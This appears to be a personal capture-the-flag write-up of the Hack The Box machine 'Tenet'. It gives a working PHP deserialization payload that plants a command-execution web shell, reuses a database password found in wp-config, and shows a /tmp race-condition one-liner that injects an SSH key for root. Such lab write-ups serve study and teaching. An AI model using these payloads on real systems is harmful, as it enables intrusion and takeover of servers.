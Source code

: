 ```yaml
---
layout: post
title: Tenet
published: true
---
```


Tenet is a medium machine from Hack The Box.

### Enumeration

A nmap scan reveals only 2 ports open on the box: 22 and 80. It looks like the web server is running WordPress 5.6. Good to know.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While I take a look at the web page, I run a wpscan in the background to enumerate any possible vulnerable plugins or themes.

`wpscan --url http://tenet.htb -e --api-token <api-token> -o wpscan.txt`

I found a few vulnerabilities but they all seem to be dead ends.

![Pasted image 20210610104151](https://user-images.githubusercontent.com/60187707/121790099-9088f500-cba1-11eb-993b-c5966a39c4ef.png)

Posts on the site reveal 2 users, `neil` and `protagonist`, which `wpscan` also found. 
A comment on a post refers to a file, `sator.php`, and its backup.

![image](https://user-images.githubusercontent.com/60187707/121790142-fe352100-cba1-11eb-89b8-3224d4ef9dc5.png)

After navigating to `/sator.php` in the browser, it looks the page is still up.

![image](https://user-images.githubusercontent.com/60187707/121790159-26248480-cba2-11eb-9028-897e05066999.png)

### Exploitation

Navigating to `/sator.php.bak` initiates a download of the file.
```

class DatabaseExport
{
	public $user_file = 'users.txt'; ## Variables?
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()        ## Concatenation\/
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';          ## $objects
$databaseupdate = unserialize($input);  ## UNSERIALIZES INPUT
echo serialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

PHP is a bittt over my head at the moment, but after some [reading](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) and some [more reading](https://notsosecure.com/remote-code-execution-via-php-unserialize/), I think I know enough to exploit it.

The PHP code accepts user input in the form of a parameter named `arepo` and then unserializes that input. There is a vulnerability in the way that PHP magic methods like `__destruct()` handle serialized objects that can lead to RCE.
So, if I craft a serialized object that contains a payload, `sator.php` will execute my payload when it unserializes my input.

```
<?php

class DatabaseExport 
{
	public $user_file = 'tron.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$pwn = new DatabaseExport;
echo (serialize($pwn));

?>

```
Running this PHP script will output a serialized object in which I have redefined the variables `$user_file` and `$data`. When `sator.php` executes, it will create a new file named `tron.php` that contains a parameter I can interact with for RCE.

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

Place the serialized object into the `arepo` parameter:
`10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}`

After some finagling with URL encoding via burp, I get a reverse shell on the machine.

![Pasted image 20210612153735](https://user-images.githubusercontent.com/60187707/121790353-3e959e80-cba4-11eb-9e3e-1730cd348c9f.png)

On as `www-data`:

![Pasted image 20210612154138](https://user-images.githubusercontent.com/60187707/121790360-46554300-cba4-11eb-949e-2dc4a5f0fc59.png)

### Privilege Escalation

Not much to do as `www-data`, but `neil` is also a user on this box, so I start looking for credentials of some kind.
I know that `wp-config` usually has credentials, so I go digging.

Found some credentials for `neil`. 
```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

SSH in as `neil` with his password, and now I can look around some more.

`sudo -l`

![Pasted image 20210612154801](https://user-images.githubusercontent.com/60187707/121790443-017ddc00-cba5-11eb-97ae-d94db40f8bfc.png)

There is a script that `neil` can run with `sudo`.

```
#!/bin/bash

checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi
}
checkFile() {
	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}
addKey() {
	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"

addKey
checkAdded
}
```

The script writes an SSH key into a file with a randomly generated name in the format `/tmp/ssh-XXXXXXXX`, then uses `cat` to append that key to `/root/.ssh/authorized_keys`. There appears to be a race condition here, as the `$tmpName` file exists during the `checkFile` process, before it's written to `authorized_keys`, so if I am constantly writing  my own SSH key to any file in the `/tmp` directory that fits the format `/tmp/ssh*`, I should be able to overwrite the root user's key. 

`while true; do echo "<id_rsa.pub>" | tee /tmp/ssh* > dev/null; done &`

This one-liner will do just that. I run it in the background while I run `sudo /usr/local/bin/enableSSH.sh`. 

After a couple of tries, I can SSH in as `root` with no password.

![Pasted image 20210612170356](https://user-images.githubusercontent.com/60187707/121816382-e82a6d80-cc40-11eb-915c-8dc8e1258c65.png)




